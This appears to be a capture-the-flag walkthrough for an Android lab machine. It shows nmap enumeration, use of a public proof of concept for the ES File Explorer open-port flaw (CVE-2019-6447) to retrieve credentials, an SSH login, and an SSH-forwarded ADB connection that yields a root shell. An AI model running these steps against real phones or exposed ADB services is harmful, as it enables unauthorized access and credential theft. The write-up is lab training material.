 ### Box Info
OS: Android
IP: 10.10.10.247

## Part 1 

### Skills learned:
Curl/Python
Andriod OS + tools

### Enum
nmap -p- -A -oN Exploreprts.txt ${IP}
+ 2222 SimplSSH
+ 5555 Andriod Debug bridge
+ 42135 ES File explorer
+ 59777 Bukkit JSONAPI
+ 44233 fingerprint-strings

### Search
Yields CVE-2019-6447
+ https://github.com/fs0c131y/ESFileExplorerOpenPortVuln
+ https://www.exploit-db.com/exploits/50070

### Step 1
+python3 poc.py ${cmd} ${IP} 
+ python3 poc.py ${cmd} ${IP} $dir/$.jpg
+ [+] Done. Saved as 'out.dat'.

Now that you have downloaded the file, open the URL in a browser.
+ ${IP}:59777/$dir/$.jpg
+ File gives UN && PW

### Step 2
+ ssh -p 2222 $UN@${IP} 
+ ${PW}

### Info gathering
+ :/whoami
u0_a76
+ :/uname -a 
Linux localhost 4.9.214-android-x86_64-g04f9324 #1 SMP PREEMPT Wed Mar 25 17:11:29 CST 2020 x86_64
+ :/find / -perm /6000 2>/dev/null
/system/xbin/procmem
/system/xbin/su
+ :/ $ id
uid=10076(u0_a76) gid=10076(u0_a76) groups=10076(u0_a76),3003(inet),9997(everybody),20076(u0_a76_cache),50076(all_a76) context=u:r:untrusted_app:s0:c76,c256,c512,c768

### Find Flag
Have fun searching! 

## Part 2

### Skills learned
ssh port forwarding
adb tool

### Install tools:
adroid-tools-adb

### Port forwarding script.py:
/import socket # socket
/import subprocess  # Subprocess
/import pyautogui  # PyAutoGui
/import time  # Time
/
/def connection_function(host, port):
/    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
/    s.connect((host, port))
/    print(s.recv(1024))
/
/connection_function("${IP}", 2222)
/
/def adb_connection(host, port):
/    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
/    s.connect((host, port))
/    print(s.recv(1024))
/
/    subprocess.call(['ssh -p 2222 -L 5555:localhost:5555 kristi@${IP}'], shell=True)
/    password = "[PASSWORD OF TARGET MACHINE OF SSH]"
/    print(s.recv(1024))
/   
/adb_connection("${IP}", 2222)

### Start port-forwarding server
+ adb start-server
+ adb connect localhost:5555
+ adb devices

### Initiate root shell:
+ adb -s localhost:5555 shell

### Find root Flag!
Happy searching!
